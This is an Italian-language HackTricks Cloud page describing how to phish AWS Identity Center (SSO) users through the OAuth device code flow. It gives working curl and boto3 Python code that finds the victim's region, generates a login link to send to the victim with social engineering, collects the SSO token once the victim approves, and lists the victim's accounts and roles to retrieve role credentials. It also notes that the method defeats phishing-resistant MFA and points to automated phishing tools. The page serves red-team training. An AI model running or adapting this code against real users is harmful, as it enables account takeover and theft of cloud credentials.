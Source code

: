 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Inizialmente proposto in [**questo post del blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), è possibile inviare un **link** a un utente che utilizza AWS SSO che, se **l'utente accetta**, l'attaccante sarà in grado di ottenere un **token per impersonare l'utente** e accedere a tutti i ruoli a cui l'utente può accedere nel **Identity Center**.

Per eseguire questo attacco, i requisiti sono:

* La vittima deve utilizzare **Identity Center**
* L'attaccante deve conoscere il **sottodominio** utilizzato dalla vittima `<victimsub>.awsapps.com/start`

Solo con le informazioni precedenti, **l'attaccante sarà in grado di inviare un link all'utente** che, se **accettato**, concederà **all'attaccante accesso all'account utente AWS**.

### Attacco

1. **Trovare il sottodominio**

Il primo passo dell'attaccante è scoprire il sottodominio che l'azienda vittima sta utilizzando nel loro Identity Center. Questo può essere fatto tramite **OSINT** o **indovinando + BF**, poiché la maggior parte delle aziende utilizzerà il proprio nome o una variazione del proprio nome qui.

Con queste informazioni, è possibile ottenere la regione in cui è stato configurato l'Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Genera il link per la vittima e invialo**

Esegui il seguente codice per generare un link di accesso AWS SSO in modo che la vittima possa autenticarsi.\
Per la demo, esegui questo codice in una console python e non uscire, poiché in seguito avrai bisogno di alcuni oggetti per ottenere il token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Invia il link generato alla vittima utilizzando le tue fantastiche abilità di ingegneria sociale!

3. **Aspetta che la vittima lo accetti**

Se la vittima era **già loggata in AWS** dovrà solo accettare di concedere i permessi, se non lo era, dovrà **accedere e poi accettare di concedere i permessi**.\
Questo è come appare il prompt al giorno d'oggi:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Ottieni il token di accesso SSO**

Se la vittima ha accettato il prompt, esegui questo codice per **generare un token SSO impersonando l'utente**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Il token di accesso SSO è **valido per 8h**.

5. **Impersonare l'utente**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing l'MFA "unphishable"

È divertente sapere che il precedente attacco **funziona anche se viene utilizzato un "MFA unphishable" (webAuth)**. Questo perché il **workflow precedente non esce mai dal dominio OAuth utilizzato**. A differenza di altri attacchi di phishing in cui l'utente deve sostituire il dominio di accesso, nel caso il workflow del codice dispositivo è preparato in modo che un **codice sia conosciuto da un dispositivo** e l'utente può accedere anche su una macchina diversa. Se accetta il prompt, il dispositivo, semplicemente **conoscendo il codice iniziale**, sarà in grado di **recuperare le credenziali** per l'utente.

Per ulteriori informazioni su questo [**controlla questo post**](https://mjg59.dreamwidth.org/62175.html).

### Strumenti Automatici

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Riferimenti

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
